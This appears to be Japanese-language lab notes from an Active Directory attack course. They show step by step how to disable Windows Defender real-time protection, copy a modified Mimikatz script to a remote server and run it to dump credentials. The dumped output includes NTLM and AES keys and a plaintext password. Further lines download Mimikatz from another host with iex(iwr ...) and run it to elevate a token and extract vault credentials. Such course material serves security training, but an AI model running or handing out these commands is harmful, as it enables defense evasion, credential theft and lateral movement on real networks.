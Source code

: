 3. Windows Defenderを無効にする。
以下のコマンドはWindows Defenderのリアルタイム保護を無効化する。
```
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
VERBOSE: Performing operation 'Update MSFT_MpPreference' on Target 
'ProtectionManagement'.
```
- Set-MpPrefernce:WindowsDefenderの設定を変更するためのコマンド
- **-DisableRealtimeMonitoring**:リアルタイム保護を無効にするオプション。
	- $trueは無効化にする。
	- $falseは有効化する。

---
## 悪用(Create Invoke-MimiEx.ps1) 
- Invoke-Mimi.ps1のコピーを作成し、名前をInvoke-MimiEx.ps1に変更する。
- PowerShell ISEでInvoke-Mimi.ps1を開く(右クリックして「編集」をクリックする。)
- ファイルの最後に「Invoke-Mimi-Command"'sekurlsa::ekeys'"」(引用符なし)を追加する。

1. PowerShellセッションから以下のコマンドを実行する。
```
PS C:\AD\Tools> Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv\c$\'Program Files' 
```

---
5. 転送したInvoke-MimiEx.ps1を実行
```
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1

[snip] 
 
Authentication Id : 0 ; 225972 (00000000:000372b4) 
Session           : RemoteInteractive from 2 
User Name         : srvadmin 
Domain            : dcorp 
Logon Server      : DCORP-DC 
Logon Time        : 3/3/2023 2:42:41 AM 
SID               : S-1-5-21-719815819-3726368948-3917688648-1115 
 
         * Username : srvadmin 
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL 
         * Password : (null) 
         * Key List : 
           aes256_hmac       
145019659e1da3fb150ed94d510eb770276cfbd0cbd834a4ac331f2effe1dbb4 
           rc4_hmac_nt       a98e18228819e8eec3dfa33cb68b0728 
           rc4_hmac_old      a98e18228819e8eec3dfa33cb68b0728 
           rc4_md4           a98e18228819e8eec3dfa33cb68b0728 
           rc4_hmac_nt_exp   a98e18228819e8eec3dfa33cb68b0728 
           rc4_hmac_old_exp  a98e18228819e8eec3dfa33cb68b0728 
 
Authentication Id : 0 ; 57828 (00000000:0000e1e4) 
Session           : Service from 0 
User Name         : appadmin 
Domain            : dcorp 
Logon Server      : DCORP-DC 
Logon Time        : 3/3/2023 2:39:11 AM 
SID               : S-1-5-21-719815819-3726368948-3917688648-1117 
 
         * Username : appadmin 
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL 
         * Password : *ActuallyTheWebServer1 
         * Key List : 
           aes256_hmac       
```

[dcorp-adminsrv]: PS C:\Users\studentx\Documents> $ExecutionContext.SessionState.LanguageMode 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections 
[dcorp-mgmt]: PS C:\Users\srvadmin\Documents> $env:username 
[dcorp-mgmt]: PS C:\Users>iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
[dcorp-mgmt]: PS C:\Users> Invoke-Mimi -Command '"sekurlsa::ekeys"' 
[dcorp-mgmt]: PS C:\Users\mgmtadmin\Documents> Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"' 